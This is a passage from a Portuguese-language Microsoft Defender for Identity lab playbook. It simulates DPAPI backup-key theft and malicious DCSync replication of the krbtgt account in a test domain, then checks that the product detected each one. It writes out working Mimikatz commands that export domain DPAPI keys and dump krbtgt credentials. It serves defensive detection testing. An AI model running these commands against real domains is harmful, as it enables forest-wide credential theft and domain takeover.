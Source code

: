   ```dos
   mimikatz.exe "privilege::debug" "lsadump::backupkeys /system:ContosoDC.contoso.azure /export" "exit"
   ```

    ![Uso de mimikatz para exportar a chave de backup DPAPI do Active Directory](media/playbook-dominance-dpapi_mimikatz.png)

1. Verifique se a exportação de arquivo de chave mestra ocorreu. Procure no diretório onde você executou mimikatz.exe para ver os arquivos .der, .pfx, .pvk e .Key criados. Copie a chave herdada do prompt de comando.

Como invasores, agora temos a chave para descriptografar quaisquer arquivos/dados confidenciais criptografados com DPAPI de *qualquer* computador em toda a floresta.

### <a name="dpapi-detection-in-product-short"></a>Detecção de DPAPI no [!INCLUDE [Product short](includes/product-short.md)]

Usando o portal do [!INCLUDE [Product short](includes/product-short.md)], vamos verificar se o [!INCLUDE [Product short](includes/product-short.md)] detectou nosso ataque DPAPI:

![[!INCLUDE [Product short](includes/product-short.md)] detectou solicitação de DPAPI](media/playbook-dominance-dpapidetected.png)

### <a name="malicious-replication"></a>Replicação mal-intencionada

Replicação mal-intencionada permite que um invasor replique as informações do usuário usando credenciais de Administrador de Domínio (ou equivalente). Replicação mal-intencionada basicamente permite que um invasor colete remotamente uma credencial. Obviamente, a conta mais importante para tentar a coleta é "krbtgt", pois é a chave mestra usada para assinar todos os tíquetes Kerberos.

Os dois conjuntos de ferramentas de invasão comuns que permitem aos invasores tentar uma replicação mal-intencionada são **Mimikatz** e **Impacket** do Core Security.

#### <a name="mimikatz-lsadumpdcsync"></a>Mimikatz lsadump::dcsync

No **VictimPC** , no contexto de **YasmiC** , execute o seguinte comando de Mimikatz:

```dos
mimikatz.exe "lsadump::dcsync /domain:contoso.azure /user:krbtgt" "exit" >> c:\temp\ContosoDC_krbtgt-export.txt
```

Nós replicamos as informações da conta "krbtgt" para: `c:\\temp\\ContosoDC_krbtgt-export.txt`

![Replicação mal-intencionada via mimikatz](media/playbook-dominance-maliciousrep_mimikatz.png)

#### <a name="malicious-replication-detection-in-product-short"></a>Detecção de replicação mal-intencionada no [!INCLUDE [Product short](includes/product-short.md)]

Usando o portal do [!INCLUDE [Product short](includes/product-short.md)], verifique se o SOC está ciente da replicação mal-intencionada que simulamos em VictimPC.

![Replicação mal-intencionada sendo detectada pelo [!INCLUDE [Product short](includes/product-short.md)]](media/playbook-dominance-maliciousrep_detected.png)
